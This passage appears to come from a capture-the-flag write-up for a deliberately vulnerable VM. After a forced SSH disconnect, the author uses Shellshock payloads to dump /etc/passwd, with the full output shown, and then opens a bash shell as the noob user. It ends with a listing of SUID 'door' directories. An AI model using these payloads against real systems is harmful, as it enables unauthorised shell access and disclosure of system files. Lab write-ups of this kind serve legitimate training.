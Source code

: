 It is possible to SSH into the VM using the noob user, as per the key's filename, but we are immediately disconnected.

``` bash
root@pwk:~# ssh -i key.key noob@172.16.56.138
TRY HARDER LOL!
Connection to 172.16.56.138 closed.
root@pwk:~#
```

Standard things here like --norc don't work, so lets try something new. SHELLSHOCK !

``` bash
root@pwk:~# ssh -i key.key noob@172.16.56.138 '() { :;}; cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
maleus:x:1000:1000:Tr0ll,,,:/home/maleus:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:111:ftp daemon,,,:/srv/ftp:/bin/false
noob:x:1002:1002::/home/noob:/bin/bash
Tr0ll:x:1001:1001::/home/tr0ll:/bin/false
root@pwk:~#
```

Yup, we can get a shell with this using '() { :;}; /bin/bash'

``` bash
root@pwk:~# ssh -i key.key noob@172.16.56.138 '() { :;}; /bin/bash'
id
uid=1002(noob) gid=1002(noob) groups=1002(noob)
```

A small bit of enumeration here identifies the following folder structure

``` bash
pwd
/nothing_to_see_here/choose_wisely
ls -l
total 12
drwsr-xr-x 2 root root 4096 Oct  5 21:16 door1
drwsr-xr-x 2 root root 4096 Oct  5 21:19 door2
drwsr-xr-x 2 root root 4096 Oct  5 21:17 door3
```
